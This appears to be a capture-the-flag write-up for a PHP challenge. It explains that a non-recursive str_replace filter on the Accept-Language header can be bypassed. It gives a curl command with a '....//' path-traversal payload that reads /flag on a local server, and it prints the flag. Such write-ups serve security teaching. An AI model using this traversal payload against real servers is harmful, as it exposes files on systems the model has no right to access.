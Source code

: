 # Flags

### 📄 Description
Welcome to fun with flags.

Flag is at /flag

## 🔑 Solution
* we can see the php source code
* it uses `str_replace` to ""escape"" the header and prevent path traversal
* `str_replace` doesn't recursively replace the source string so it's easily bypassed

```
curl 'http://localhost:1235/' -H 'Accept-Language: ....//....//....//....//flag'
```

### 🚩 Flag
```
35c3_this_flag_is_the_be5t_fl4g
```